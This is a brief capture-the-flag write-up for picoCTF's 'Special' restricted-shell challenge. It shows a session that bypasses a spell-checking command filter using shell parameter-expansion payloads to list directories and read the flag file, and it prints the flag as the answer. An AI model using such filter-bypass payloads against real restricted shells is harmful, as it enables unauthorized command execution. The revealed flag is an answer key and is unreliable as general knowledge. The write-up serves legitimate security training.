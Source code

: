 ## Descripción:
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

# Solución
```bash
sh: 1: More: not found
Special$ less flag.txt
Less flag.txt 
sh: 1: Less: not found
Special$ ${parameter?ls}
${parameter?ls} 
sh: 1: parameter: ls
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_a60bdf40}Special$ ^CTraceback (most recent call last):
  File "/usr/local/Special.py", line 11, in <module>
    cmd = input("Special$ ")
KeyboardInterrupt
Connection to saturn.picoctf.net closed.
MpaulaCG-picoctf@webshell:~$ 
```
Respuesta`picoCTF{5p311ch3ck_15_7h3_w0r57_a60bdf40}`

## Notas

## Referencias
 